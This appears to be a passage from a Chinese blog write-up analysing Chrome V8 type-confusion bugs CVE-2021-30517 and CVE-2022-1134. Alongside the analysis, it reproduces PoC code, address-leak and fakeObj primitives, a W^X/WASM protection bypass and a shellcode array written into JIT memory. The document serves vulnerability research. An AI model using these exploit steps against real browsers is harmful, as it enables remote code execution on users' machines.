- map: 0x34d30025a42d <Map[16](FAST_STRING_WRAPPER_ELEMENTS)> [FastProperties]  
- prototype: 0x34d300248b25 <Object map = 0x34d30025a471 value = 0x34d300002529 <String[0]: #>>  
- elements: 0x34d300002259 <FixedArray[0]> [FAST_STRING_WRAPPER_ELEMENTS]  
- value: 0x34d300259d85 <String[4]: #aaaa>  
- properties: 0x34d3000034c1 <PropertyArray[0]>  
- All own properties (excluding elements): {  
   0x34d300006539: [String] in ReadOnlySpace: #length: 0x34d300204345 <AccessorInfo name= 0x34d300006539 <String[6]: #length>, data= 0x34d3000023e1 <undefined>> (const accessor descriptor), location: descriptor  
}

pwndbg> x/16wx 0x34d300259d85-1  
0x34d300259d84: 0x0000227d      0xbac06802      0x00000004      0x61616161
```

而当其使用超级内联缓存来获取该值时，会转而去获取 `obj_array` 的 `length` ，因为传入的是 `receiver` ，但由于其直接使用了偏移，而没有去检查 `obj_array` 和 `String` 是否为同一个类型，而直接通过类型去获取该值：

```c++
0x5bb0010acd1: [JSArray]  
- map: 0x05bb0024e711 <Map[16](PACKED_ELEMENTS)> [FastProperties]  
- prototype: 0x05bb0024e10d <JSArray[0]>  
- elements: 0x05bb0010acc5 <FixedArray[1]> [PACKED_ELEMENTS]  
- length: 1  
- properties: 0x05bb00002259 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x5bb00006539: [String] in ReadOnlySpace: #length: 0x05bb00204255 <AccessorInfo name= 0x05bb00006539 <String[6]: #length>, data= 0x05bb000023e1 <undefined>> (const accessor descriptor), location: descriptor  
}  
- elements: 0x05bb0010acc5 <FixedArray[1]> {  
          0: 0x05bb0010ac99 <Object map = 0x5bb0025a15d>  
}

pwndbg> x/16wx 0x5bb0010acd1-1  
0x5bb0010acd0:  0x0024e711      0x00002259      0x0010acc5      0x00000002  
```

于是在 poc 中会直接将偏移 0x8 处的 `elements` 地址返回给用户，而不是 0x12 偏移处真正的长度属性。

不过原理是这么个原理，但是我们可以观察一下创建处理函数时的检查：

```c++
Handle<Object> LoadIC::ComputeHandler(LookupIterator* lookup) {
  Handle<Object> receiver = lookup->GetReceiver();
  ...
  if (!IsAnyHas() && !lookup->IsElement()) {
    ...
    if (receiver->IsString() && *lookup->name() == roots.length_string()) {
      TRACE_HANDLER_STATS(isolate(), LoadIC_StringLength);
      return BUILTIN_CODE(isolate(), LoadIC_StringLength);
    }
    ...
  }
```

它检查了 `receiver` 的类型，只有 `receiver` 是 `String` 类型且访问的对象为 `length` 时才会创建这段处理程序。理论上说，我们确实无法逃开这个检查，但是在上述案例中展示的代码并不完整，实际上，它还涉及到了更大的一层缓存，这能让我们绕过该检查。

### 通过超态内联缓存绕过检查

在上文中曾介绍过内联缓存的机制，单态的内联缓存只能用于处理一个对象，但如果多个对象在具有相似的结构的情况下，就能够达到多态，而如果继续增加数量就能达到超态。这能允许多个不同的函数使用同一个内联缓存处理程序：

```c++
function main() {
  function f() {}
  class A {
    m() {
      return super.prototype;
    }
  };
  %DebugPrint(f);
  A.prototype.__proto__ = f;
  f.prototype;
  %DebugPrint(f);
}
main()
```

在这个代码中，每次运行 `main` 函数时都将为 `f` 和 `A` 分配一个新的 `map` ，而当 `f` 成为 `prototype` 时又将被赋予一个新的 `map` ，因此在调用 `super.prototype` 和 `f.prototype` 时，由于两者的 `map` 不同，因此被认为是两个不同的对象，但由于访问的都是相同偏移的相同属性，因此在多次调用以后将会创建超态内联缓存。

```js
DebugPrint: 0x2b040010ac09: [Function]  
- map: 0x2b04002441c9 <Map[32](HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x2b04002440f1 <JSFunction (sfi = 0x2b040020aa45)>  
- elements: 0x2b0400002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- function prototype:    
- initial_map:    
- shared_info: 0x2b040025a089 <SharedFunctionInfo f>  
- name: 0x2b04000040cd <String[1]: #f>  

DebugPrint: 0x2b040010ac09: [Function]  
- map: 0x2b040025a351 <Map[32](HOLEY_ELEMENTS)> [DictionaryProperties]  
- prototype: 0x2b04002440f1 <JSFunction (sfi = 0x2b040020aa45)>  
- elements: 0x2b0400002259 <FixedArray[0]> [HOLEY_ELEMENTS]  
- function prototype:    
- initial_map:    
- shared_info: 0x2b040025a089 <SharedFunctionInfo f>  
- name: 0x2b04000040cd <String[1]: #f>  
```

> 同一个函数对象的 `map` 地址改变了，说明发生了重构。

在这种情况下，`f.prototype` 将会创建内联缓存处理程序，而它却能够允许 `super.prototype` 也使用该程序。那么如果前者通过了检查并创建了对应的处理程序，而后者一旦被允许共享该程序就有可能导致类型混淆，并且由于传递参数时候了 `receiver` 而非 `lookup_start_object` ，那么尽管其因为 `lookup_start_object` 的类型符合条件，被允许使用该处理程序，但最终却要从调用者本身的对应偏移处获取值。

## CVE-2022-1134

该漏洞和上文所述的 `CVE-2021-30517` 有相似的原因，归根结底似乎还是因为对上一个漏洞的修复不够完全所致。

您能在当时的 issue 下方找到一个最初的修复补丁：

```diff
@@ -283,7 +283,8 @@
   BIND(&load);
   TNode<IntPtrT> argc = IntPtrConstant(0);
   exit_point->Return(CallApiCallback(context, callback, argc, data,
-                                     api_holder.value(), p->receiver()));
+                                     api_holder.value(),
+                                     p->lookup_start_object()));
 }
```

如您所见，它将参数由 `receiver` 改为了 `lookup_start_object` ，这也是笔者为什么说它们相似的原因，因为它们的主要区别只是触发方式的不同。

### 漏洞成因

如果访问的属性的 getter 是一个 `simple_api_call`  ，并且进一步完成之后的检查保证其类型后，将会调用 `LoadHandler::LoadSlow` 为其创建一个处理程序：

```c++
Handle<Object> LoadIC::ComputeHandler(LookupIterator* lookup) {
    ...
    case LookupIterator::ACCESSOR: {
        ...
        CallOptimization call_optimization(isolate(), getter);
        if (call_optimization.is_simple_api_call()) {//<--------- 1.
          CallOptimization::HolderLookup holder_lookup;
          Handle<JSObject> api_holder =
              call_optimization.LookupHolderOfExpectedType(isolate(), map, //<----- 2.
                                                           &holder_lookup);

          if (!call_optimization.IsCompatibleReceiverMap(api_holder, holder,//<----- 3.
                                                         holder_lookup) ||
              !holder->HasFastProperties()) {
            TRACE_HANDLER_STATS(isolate(), LoadIC_SlowStub);
            return LoadHandler::LoadSlow(isolate());
          }

          smi_handler = LoadHandler::LoadApiGetter(
              isolate(), holder_lookup == CallOptimization::kHolderIsReceiver);
          ...
```

这里引用一些原文作者对 `simple_api_call` 的描述：

> I’ll explain this in more detail later, but in essence, a simple_api_call can be thought of as a C++ function defined in the embedder that receives V8 objects as inputs. A simple_api_call expects its argument to have a certain memory layout, determined by the V8 object type, and it is important that V8 objects of the correct types are used when calling the function (C++ typing cannot distinguish different V8 object types, and under the hood, a simple_api_call simply casts a V8 object to the desired type). 

简单来说就是，`simple_api_call` 是 V8 调用其他模块的函数的手段，而 `simple_api_call` 不检查类型，它总是认为输入的对象有合理的内存布局，因此会直接使用。所以在使用以前需要检查调用者的类型和持有者的类型：

```c++
Handle<Object> LoadIC::ComputeHandler(LookupIterator* lookup) {
  ...
  Handle<Map> map = lookup_start_object_map();
  ...
    case LookupIterator::ACCESSOR: {
```

但是这里获取到的 `map` 来自于 `lookup_start_object` ，而我们在使用该对象的处理程序时却传入 `receiver` ，这就回到了我们最开始描述的那个特性：

```js
class B {
  m() {
    return super.prop;
  }
}

var b = new B();
var a = {get prop() {return this.x}, x : 'A'};
b.x = 'B';

B.prototype.__proto__ = A;

b.m() //<-------- 'B'
```

当代码通过 `getter` 调用 `this.x` 时，它给出的并非 `lookup_start_object` 中的 `x` 属性，而是来自 `receiver` 的：

```c++
void AccessorAssembler::HandleLoadAccessor(
    const LazyLoadICParameters* p, TNode<CallHandlerInfo> call_handler_info,
    TNode<WordT> handler_word, TNode<DataHandler> handler,
    TNode<IntPtrT> handler_kind, ExitPoint* exit_point) {
  ...
  BIND(&load);
  TNode<IntPtrT> argc = IntPtrConstant(0);
  exit_point->Return(CallApiCallback(context, callback, argc, data,
                                     api_holder.value(), p->receiver()));
}
```

因此在调用 `simple_api_call` 来创建内联缓存处理程序时，由于使用了 `receiver` ，并且内联缓存程序不检查对象类型从而导致类型混淆。

而 `simple_api_call` 并非用来调用 V8 本身的内容，比方说，当 V8 与 chrome 的渲染引擎交互时才会用到该对象，所以要利用这个类型混淆漏洞，还需要看看渲染模块是如何与 V8 进行交互的。

### Blink 与 V8 的交互方式

当我们在 Javascript 中创建一个 Blink 对象，这会分别在 Binlk 和 V8 中分别生成一个对象。Blink 会通过 `DOMRectReadOnly::Create` 去创建对象，但我们并不关心它，我们还是更在意它在 V8 中的表现方式： 

```html
 <html>
  <script>
  var temp=new DOMRectReadOnly(1, 1, 1, 1);
  %DebugPrint(temp);
  </script>
</html>
```

上述代码会打印出如下内容：

```js
0x9bf08110731: [JS_API_OBJECT_TYPE]  
- map: 0x09bf0830a0b1 <Map(HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x09bf081104e9 <Object map = 0x9bf0830a089>  
- elements: 0x09bf08002249 <FixedArray[0]> [HOLEY_ELEMENTS]  
- embedder fields: 2  
- properties: 0x09bf08002249 <FixedArray[0]>  
- All own properties (excluding elements): {}  
- embedder fields = {  
   -863210616, aligned pointer: 0x7fca9918e710  
   1338528, aligned pointer: 0x3130028d940  
}

pwndbg> x/16wx 0x9bf08110731-1  
0x9bf08110730:  0x0830a0b1      0x08002249      0x08002249      0x9918e710  
0x9bf08110740:  0x00007fca      0x0028d940      0x00000313      0xbeadbeef
```

可以看到，该对象在 V8 中会被包装成 `JS_API_OBJECT` ，其内存模型大致如下：

```
map:0x4 | properties:0x4 | elements:0x4 | wrapper_info:0x4 | blink_object:0x4
```

`wrapper_info` 指定了 Blink 对象的类型，而 `blink_object` 则指向了 Blink 中的对象。

而在 Blink 中，一个能够被 V8 访问的对象继承自 `ScriptWrappable` ，它的 `main_world_wrapper_` 属性提供了包含该对象的一个 V8 对象链接：(这里引用了原文的图片)


而当我们通过 `temp.x` 去访问 `DOMRectReadOnly` 中的属性时，会调用 `out/Debug/gen/third_party/blink/renderer/bindings/core/v8/v8_dom_rect_read_only.cc` 下的 `XAttributeGetCallback` ：

```c++
void XAttributeGetCallback(const v8::FunctionCallbackInfo<v8::Value>& info) {
  RUNTIME_CALL_TIMER_SCOPE_DISABLED_BY_DEFAULT(
      info.GetIsolate(), "Blink_DOMRectReadOnly_x_Getter");
  BLINK_BINDINGS_TRACE_EVENT("DOMRectReadOnly.x.get");

  v8::Local<v8::Object> v8_receiver = info.This();
  DOMRectReadOnly* blink_receiver =
      V8DOMRectReadOnly::ToWrappableUnsafe(v8_receiver);
  auto&& return_value = blink_receiver->x();
  bindings::V8SetReturnValue(info, return_value,
                             bindings::V8ReturnValue::PrimitiveType<double>());
}
```

> `v8_dom_rect_read_only` 对应了 V8 下的 `DOMRectReadOnly` 对象，其他对象也有类似的命名规范，以 `V8_{FILE_NAME}` 

> `XAttributeGetCallback` 这类名称都是符合谷歌命名规范的，类似的其他属性可以通过对应的 `×AttributeGetCallback` 来找到。

`v8_receiver` 即为上述的 `JS_API_OBJECT` 对象，然后它会用 `ToWrappableUnsafe` 检查该对象是否为 `JS_OBJECT` 、`JS_API_OBJECT` 或 `JS_SPECIAL_API_OBJECT` ，最后将偏移为 0x10 处的 `blink_object` 返回，并强转为 `DOMRectReadOnly` 类型，之后再对其调用方法 `x` 获取其对应属性值。

### 漏洞触发原理

如您所见， `XAttributeGetCallback` 做了检查，如果 `receiver` 的类型不符合预期，那么就会在执行过程中报错：

```js
 class B {
    m() {
      return super.x;
    }
  }
  B.prototype.__proto__ = new DOMRectReadOnly(1, 1, 1, 1);
  let b = new B();
  b.m(); //<---- throws TypeError: Illegal invocation
```

而如果构建了超态内联缓存来绕过该检查，就能够避掷出错误，原作者给出了具体的 POC：

```js
class B {
  m() {
    return super.x;
  }
}

function main() {
  var domRect = new DOMRect(1, 1, 1, 1);
  domRect['a' + i] = 1;
  if (i < 20 - 1) {
    B.prototype.__proto__ = {};  //<----- sets to `{}` to avoid throw before triggering bug.
  } else {
    B.prototype.__proto__ = domRect;  //<----- triggers the bug after inline cache is created.
  }
  let b = new B();

  b.x0 = 0x40404040;
  b.x1 = 0x41414141;
  b.x2 = 0x42424242;
  b.x3 = 0x43434343;
  domRect.x; //<------ create inline cache
  b.m();     //<------ use inline cache, type confusion on i == 20
}  

for (let i = 0; i < 20; i++) main(i);
```

`main` 每次执行都会为 `B` 和 `domRect` 赋予新的 `map` ，在多次执行以后将会为 `domRect.x` 创建内联缓存处理程序，而在使用 `super.x` 时则会共享该处理程序，但是实际引用的对象确是 `receiver` ，于是它会通过既定的访问方式去 `let b` 中寻找，从而导致非法的内存访问而崩溃：

```c++
DebugPrint: 0x1b8108112d49: [JS_OBJECT_TYPE]  
- map: 0x1b810830a3d1 <Map(HOLEY_ELEMENTS)> [FastProperties]  
- prototype: 0x1b810811029d <B map = 0x1b810830afb1>  
- elements: 0x1b8108002249 <FixedArray[0]> [HOLEY_ELEMENTS]  
- properties: 0x1b8108002249 <FixedArray[0]>  
- All own properties (excluding elements): {  
   0x1b81082fc281: [String] in OldSpace: #x0: 0x1b8108112d65 <HeapNumber 1077952576.0> (const data field 0), location: in-object  
   0x1b81082fc291: [String] in OldSpace: #x1: 0x1b8108112d71 <HeapNumber 1094795585.0> (const data field 1), location: in-object  
   0x1b81082fc2a1: [String] in OldSpace: #x2: 0x1b8108112d7d <HeapNumber 1111638594.0> (const data field 2), location: in-object  
   0x1b81082fc2b1: [String] in OldSpace: #x3: 0x1b8108112d89 <HeapNumber 1128481603.0> (const data field 3), location: in-object  
}  
0x1b810830a3d1: [Map]  
- type: JS_OBJECT_TYPE  
- instance size: 28  
- inobject properties: 4  
- elements kind: HOLEY_ELEMENTS  
- unused property fields: 0  
- enum length: invalid  
- stable_map  
- back pointer: 0x1b810830a3a9 <Map(HOLEY_ELEMENTS)>  
- prototype_validity cell: 0x1b81082fdccd <Cell value= 1>  
- instance descriptors (own) #4: 0x1b8108110ff5 <DescriptorArray[4]>  
- prototype: 0x1b810811029d <B map = 0x1b810830afb1>  
- constructor: 0x1b8108110261 <JSFunction B (sfi = 0x1b81082fbfe5)>  
- dependent code: 0x1b81080021d1 <Other heap object (WEAK_ARRAY_LIST_TYPE)>  
- construction counter: 0

Received signal 6  
#0 0x7f53eedcbe8f base::debug::CollectStackTrace()  
#1 0x7f53eeb2310a base::debug::StackTrace::StackTrace()  
#2 0x7f53eeb230c5 base::debug::StackTrace::StackTrace()  
#3 0x7f53eedcb95c base::debug::(anonymous namespace)::StackDumpSignalHandler()  
#4 0x7f53b22cf420 (/usr/lib/x86_64-linux-gnu/libpthread-2.31.so+0x1441f)  
#5 0x7f53b1a3800b gsignal  
#6 0x7f53b1a17859 abort  
#7 0x7f53eedcb1b6 base::debug::(anonymous namespace)::DebugBreak()  
#8 0x7f53eedcb195 base::debug::BreakDebuggerAsyncSafe()  
#9 0x7f53eeb1f1c9 base::debug::BreakDebugger()  
#10 0x7f53eeb721fd logging::LogMessage::~LogMessage()  
#11 0x7f53eeb723f9 logging::LogMessage::~LogMessage()  
#12 0x7f53eeadd0ab logging::CheckError::~CheckError()  
#13 0x7f53c39d7478 blink::GetInternalField<>()  
#14 0x7f53c39d73cd blink::ToScriptWrappable()  
#15 0x7f53c62f28bd blink::bindings::V8InterfaceBridge<>::ToWrappableUnsafe()  
#16 0x7f53c62f1298 blink::(anonymous namespace)::v8_dom_rect::XAttributeGetCallback()  
#17 0x1b81076c8e6e <unknown>
```

可以看出，我们最终访问了 `b` 所在内存段的某个非法地址导致了程序崩溃。

## 漏洞利用

我们仍然希望能够达成任意地址读写的目的，这意味着仍然需要通过常规的方法去构造 `fakeObj` 和 `addressOf` 这两个原语。 

现在我们已经能够绕过类型检查去访问内存了，为了避免程序崩溃，我们需要找到内存结构正好符合我们预期的对象，通过这个类型混淆将非法地址处的数据读取出来。

比方说 `DOMMatrix` ，该对象具有很多属性：

```js
1.  DOMMatrix {a: 11, b: 12, c: 21, d: 22, e: 41, …}

1.  a: 11
2.  b: 12
3.  c: 21
4.  d: 22
5.  e: 41
6.  f: 42
7.  is2D: false
8.  isIdentity: false
9.  m11: 11
10.  m12: 12
11.  m13: 13
12.  m14: 14
13.  m21: 21
14.  m22: 22
15.  m23: 23
16.  m24: 24
17.  m31: 31
18.  m32: 32
19.  m33: 33
20.  m34: 34
21.  m41: 41
22.  m42: 42
23.  m43: 43
24.  m44: 44
25.  [[Prototype]]: DOMMatrix
```

我们通过访问其中的某个属性来构造内联缓存，然后就能指定从某个具有相似结构的对象的相同偏移处读取数据了：

```js
    loopCount=20;
    class SubImg extends ImageData {
      constructor(imgData) {
        super(imgData, height,width);
      }
      getAddr() {
        return super.m21;//<----类型混淆读取非法数据
      }
    }
    var imgDataStore = new ArrayBuffer(48);
    var imgData = new Uint8ClampedArray(imgDataStore);
    var img = new SubImg(imgData);
    var matrixInput = [11,12,13,14,21,22,23,24,31,32,33,34,41,42,43,44];
    var domMatrixImg = new DOMMatrix(matrixInput);
    function leakImageAddr(i) {
      domMatrixImg['a' + i] = 1;
      if (i < loopCount) {
        SubImg.prototype.__proto__ = {};
      } else {
        SubImg.prototype.__proto__ = domMatrixImg;
      }
      domMatrixImg.m21;//<----创建处理程序
      let addr = img.getAddr();
      return Number(ftoi(addr));
    }
    
    for (let i = 0; i < loopCount; i++) {
      leakImageAddr(i);
    }
    let imgAddr = leakImageAddr(loopCount);
```

`ImageData` 中有一个名为 `data_u8_` 的属性，而该属性用于储存 `DOMUint8ClampedArray` 的指针，其偏移与 `ImageData.m21` 相同。因此，通过类型混淆，我们能够泄漏出  `DOMUint8ClampedArray` 的指针。

> `ImageData` 的构造函数需要提供 `Uint8ClampedArray` 对象，该对象将成为 `DOMUint8ClampedArray` 。

而 `DOMUint8ClampedArray` 是 V8 中 `Uint8ClampedArray` 的 Blink 表示，它是一个包含 `main_world_wrapper_` 字段的 `ScriptWrappable` 对象，可以用来检索 V8 中 `Uint8ClampedArray` 的地址。

那么就可以从 `ImageData.m21` 的类型混淆获取到 Blink 的内存地址，而再通过 Blink 中的 `DOMUint8ClampedArray` 对象的 `main_world_wrapper_` 再读出 V8 所属的内存地址。

这个过程和上面的泄漏有些许不同，因为泄漏一个属性只需要调整偏移即可，但泄漏某个偏移处指向的地址，却要求我们拥有“解引用”的方法，这可以通过 `DeviceMotionEvent::interval` 实现：

```c++
class DeviceMotionEvent final : public Event {
  DEFINE_WRAPPERTYPEINFO();

 public:
  double DeviceMotionEvent::interval() const {
    //reads the field `interval_` from `device_motion_data_`
    return device_motion_data_->Interval();
  }

  ...
 private:
  Member<const DeviceMotionData> device_motion_data_;
}

class MODULES_EXPORT DeviceMotionData final
    : public GarbageCollected<DeviceMotionData> {
 public:
  ...
  double Interval() const { return interval_; }
  ...
 private:
  ...
  double interval_;
};
```

`DeviceMotionEvent` 在某固定偏移处指向了 `device_motion_data_` ，并从该对象的固定偏移处读取 `interval_` ，我们将这种读取方式应用与另外一个对象，本例中即为 `DOMMatrix` ，那么它就会从 `DOMMatrix.m33` 偏移处获取到地址作为 `device_motion_data_` ，并从该地址处的固定偏移获取数据：



```js
    class SubMatrix extends DOMMatrix {
      constructor(addr) {
        let input = matrixInput;
        input[10] = itof(BigInt(addr - 0x18));
        super(input);
      }

      readContent() {
        return super.interval;
      }
    }
    
    var motionEvent = new DeviceMotionEvent({});
    function readFrom(i, subMatrix) {
      motionEvent['a' + i] = 1;
      if (i < loopCount) {
        SubMatrix.prototype.__proto__ = {};
      } else {
        SubMatrix.prototype.__proto__ = motionEvent;
      }
      motionEvent.interval;
      let addr = subMatrix.readContent();
      return addr;
    }
    let mainWorldMatrix = new SubMatrix(imgAddr + 0x8);
    for (let i = 0; i < loopCount; i++) {
      readFrom(i, mainWorldMatrix);
    }
    let mainWorldWrapper = Number(ftoi(readFrom(loopCount, mainWorldMatrix)));
    let v8AddrMatrix = new SubMatrix(mainWorldWrapper);
    let v8TypedArrayAddr = Number(ftoi(readFrom(loopCount, v8AddrMatrix)));
```

此时我们能够得到 `imgData`  的地址，不妨通过调试来确定一下：

```js
    console.log(v8TypedArrayAddr);
    %DebugPrint(imgData);
```

将会得到如下结果：

```js
DebugPrint: 0x325a081135f9: [JSTypedArray]  
- map: 0x325a083034b9 <Map(UINT8_CLAMPEDELEMENTS)> [FastProperties]  
- prototype: 0x325a082d0eb1 <Object map = 0x325a083034e1>  
- elements: 0x325a080033c9 <ByteArray[0]> [UINT8_CLAMPEDELEMENTS]  
- embedder fields: 2  
- buffer: 0x325a081135b9 <ArrayBuffer map = 0x325a08302d61>  
- byte_offset: 0  
- byte_length: 48  
- length: 48  
- data_ptr: 0x325c00018000  
  - base_pointer: (nil)  
  - external_pointer: 0x325c00018000  
- properties: 0x325a08002249 <FixedArray[0]>  
- All own properties (excluding elements): {}  
- elements: 0x325a080033c9 <ByteArray[0]> {  
       0-47: 0  
}  
- embedder fields = {  
   711816412, aligned pointer: 0x7fa054dae9b8  
   1338892, aligned pointer: 0x3ab00028dc18  
}

[21658:21658:1012/135648.555281:INFO:CONSOLE(109)] "55362263791097", source: file:///home/tokameine/Desktop/chrome-debug/CVE_2022_1134/other_chrome/demoexp.html (1  
09)

pwndbg> tel 55362263791097  
00:0000│  0x325a081135f9 ◂— 0xc908002249083034  
01:0008│  0x325a08113601 ◂— 0x81135b9080033 /* '3' */  
```

通过这种方法确定了一个 V8 对象地址后，由于整个 V8 的内存是线性储存，因此其他所有的对象地址都能够通过该地址加减一个偏移来得到。

> 但是这种方案的效率不高，加减偏移计算地址的方法很可能在不同版本或不同参数等因素浮动，一旦 exp 有一点变动就要重新调试计算，因此更优的方式是通过上述方案直接去读取出实际地址，这样读取的结果总是实时的，因此不容易出现问题。

同理，通过这种读取方式，我们还可以读取出其他对象的 `map` ，这能为我们之后用于伪造对象提供帮助：

```js
    var imgDataStore = new ArrayBuffer(48);
    var imgData = new Uint8ClampedArray(imgDataStore);
    var doubleArr = [1.1, 2.2, 3.3, 4.4, 5.5];
    var objArr = [imgData];

    let doubleArrMatrix = new SubMatrix(v8TypedArrayAddr + 0x74 - 1);
    let doubleMap = ftoi32(readFrom(loopCount, doubleArrMatrix))[1];

    var doubleArrElementDefault = (v8TypedArrayAddr + 0x60) >> 0;
    var doubleArrDefault = i32tof(doubleArrElementDefault, 0x1000);

    //map + properties
    doubleArr[0] = i32tof(doubleMap, 0x8002249);
    //elements + length
    doubleArr[1] = doubleArrDefault;
    doubleArr[2] = i32tof(0x8002249, 0x1000);
    doubleArr[3] = 1.1;
```

### fakeObj 与 signal

回顾一下，类型混淆能够让我们去非法的读取数据，但它实际上是通过 `getter` 的返回值完成的，倘若某个 `getter` 能够返回对象，那么我们就能够通过类型混淆来修改返回的结果了：

```c++
void SignalAttributeGetCallback(
    const v8::FunctionCallbackInfo<v8::Value>& info) {
  RUNTIME_CALL_TIMER_SCOPE_DISABLED_BY_DEFAULT(info.GetIsolate(),
                                               "Blink_Request_signal_Getter");
  BLINK_BINDINGS_TRACE_EVENT("Request.signal.get");

  v8::Local<v8::Object> v8_receiver = info.This();
  Request* blink_receiver = V8Request::ToWrappableUnsafe(v8_receiver);
  auto&& return_value = blink_receiver->signal();
  bindings::V8SetReturnValue(info, return_value, blink_receiver);
}
```

`blink_receiver->signal` 返回一个 `auto` 类型的对象，通过控制其返回目标的属性，我们似乎有办法令其主动返回一个我们期望的对象。

根据声明我们能够发现：

```c++
AbortSignal* signal() const { return signal_; }
```

其返回对象是一个 `AbortSignal` 指针，它也是一个 `ScriptWrappable` 对象，而通过 `V8SetReturnValue` 将会返回 `main_world_wrapper_` 字段中的 V8 对象地址，而该对象的类型取决于其拥有的 `map` 。

那么我们的目标就很明确了，首先声明一个 `Request` 对象用以获取 `signal` ，然后找到一个与 `signal_` 有相同偏移却能够由我们随意控制的对象，将其设定为伪造好的内存结构，然后再返回出来即可。



```js
    class SubAudioData extends AudioData {
      constructor(addr) {
        let input = audioDataInput;
        input.timestamp = addr;
        super(input);
      }
        
      getFakeObj() {
        return super.signal;
      }
    }
    function createFakeObj(i, addr) {
      req['a' + i] = 1;
      if (i < loopCount) {
        SubAudioData.prototype.__proto__ = {};
      } else {
        SubAudioData.prototype.__proto__ = req;
      }
      req.signal;
      return subAudio.getFakeObj();
    }
    
    var subAudio = new SubAudioData(imgAddr + 0x8);
    for (let i = 0; i < loopCount; i++) {
      createFakeObj(i);
    }
    var fakeDblArr = createFakeObj(loopCount);
```


### 绕过 WASM 内存保护

曾经在某篇文章里提到过，过去版本的 V8 中对 WASM 内存段不设保护，创建 WASM 后会直接生成一段 RWX 内存，这能为我们的利用提供很大的方便，因为在能够任意写的条件下，将 shellcode 写入该内存段是没有任何难度的。

但是后来的版本中为此添加了新保护，当该漏洞发生的版本下， WASM 仍会生成 RWX 内存段，但是向其写入时将会引发崩溃，因为它启用了 `kWebAssemblyCodeProtectionPku` ： `wasm-memory-protection-keys` 成为写入该内存段的开关，它将会令该内存段的权限在 RX 和 RWX 间切换。

而该标志位于 `libchrome.so` 中，通过 Blink 对象的读取，我们仍然有办法得到其地址：

```js
    var shellArrayAddr = addrOf(shellArray);

    let wrapperMatrix = new SubMatrix(imgAddr);
    let wrapperAddr = ftoi(readFrom(loopCount, wrapperMatrix));
    var wasmProtectionKeyAddr = wrapperAddr + wasmMemoryProtectionKeysOffset;
    compressedWrite(shellArrayAddr + 0x2c, itof(wasmProtectionKeyAddr));
    for (let i = 0; i < 8; i++) {
      shellArray[i] = 0;
    }
```

另外，笔者也顺手找了一下相关的函数：

```c++
void CodeSpaceWriteScope::SetWritable() {
  if (WasmCodeManager::MemoryProtectionKeysEnabled()) {
    RwxMemoryWriteScope::SetWritable();
  } else if (v8_flags.wasm_write_protect_code_memory) {
    current_native_module_->AddWriter();
  }
}
```

```c++
bool WasmCodeManager::MemoryProtectionKeysEnabled() {
  return HasMemoryProtectionKeySupport() &&
         v8_flags.wasm_memory_protection_keys;
}
```

```c++
WasmCodeAllocator::WasmCodeAllocator(std::shared_ptr<Counters> async_counters)
    : protect_code_memory_(!V8_HAS_PTHREAD_JIT_WRITE_PROTECT &&
                           v8_flags.wasm_write_protect_code_memory &&
                           !WasmCodeManager::MemoryProtectionKeysEnabled()),
      async_counters_(std::move(async_counters)) {
  owned_code_space_.reserve(4);
}
```

将 `wasm_write_protect_code_memory` 覆盖为 0 能够禁用该保护，从而实现绕过。

另外还有一个方法，笔者最先接触到的也是该方法：覆盖 `write_protect_code_memory_` 为 0。

不过该标志主要用于保护 JIT 优化代码，它不直接通过 WASM 去生成代码段：

```js
    function jit(a) {
        var sum = 0;
        if (a[1] == 15) {
            sum += 5;
        }
        for (var i = 0; i < a[1]; i++) {
            sum += 10;
        }
        return a[0] + sum;
    }
	// Set `write_protect_code_memory_` to false (disable W^X)
	stableWrite(0xa070, 0, false);
	// Compile a JIT function, which will create RWX memory
	compile();
	
	var jit_function_addr = stableAddrOf(jit);
	var RWX_PAGE = stableRead32(jit_function_addr + 0x18, true);
	var assembly_offset = RWX_PAGE + 0x40;
	var shellcode = [0x010101010101b848n, 0x62792eb848500101n, 0x0431480101626d60n, 0x2f7273752fb84824n, 0x68e78948506e6962n, 0x012434810101303bn, 0x534944b848010101n, 0xd231503d59414c50n, 0x52e201485a086a52n, 0x010101b848e28948n, 0xb848500101010101n, 0x0101626d6062792en, 0x752fb84824043148n, 0x31506e69622f7273n, 0xe601485e086a56f6n, 0x0f583b6ae6894856n, 0x0000000090909005n];
	for (var i = 0; i < shellcode.length; i++) {
		stableWrite(assembly_offset + (8 * i), shellcode[i], true);
	}
	
	jit([1, 15]);
```

一些基础的加减法运算会在多次执行以后通过 JIT 优化生成机器码，而如果 `write_protect_code_memory_` 没有置为非零，那么就会为这段机器码创建 RWX 内存段，通过写这段内存来注入 shellcode，最后再次调用 JIT 优化代码触发。

> 2023.3.11 更新：
> 注意到 `stableWrite(0xa070, 0, false);` 的操作，它通过偏移完成，这在当时的版本的是可行的。但就最近的实际情况来说，该 flag 的地址已经变化了，他不在位于 V8 的 heap 中，因此要修改该 flag 需要用其他方法层层读取

```c++
  if (executable == EXECUTABLE) {
    if (heap->write_protect_code_memory()) {
      chunk->write_unprotect_counter_ =
          heap->code_space_memory_modification_scope_depth();
    } else {
      size_t page_size = MemoryAllocator::GetCommitPageSize();
      size_t area_size =
          RoundUp(chunk->area_end() - chunk->area_start(), page_size);
      // [1] DefaultWritableCodePermissions == RWX
      CHECK(chunk->reservation_.SetPermissions(
          chunk->area_start(), area_size, DefaultWritableCodePermissions()));
    }
  }
```

## 参考列表

https://github.blog/2022-06-29-the-chromium-super-inline-cache-type-confusion/#the-vulnerability
https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/
https://jayconrod.com/posts/52/a-tour-of-v8-object-representation
https://v8.dev/docs/ignition
https://docs.google.com/presentation/d/1chhN90uB8yPaIhx_h2M3lPyxPgdPmkADqSNAoXYQiVE/
https://juejin.cn/post/7023253397390229534#heading-7
https://zhuanlan.zhihu.com/p/38202123
https://zhuanlan.zhihu.com/p/478048761
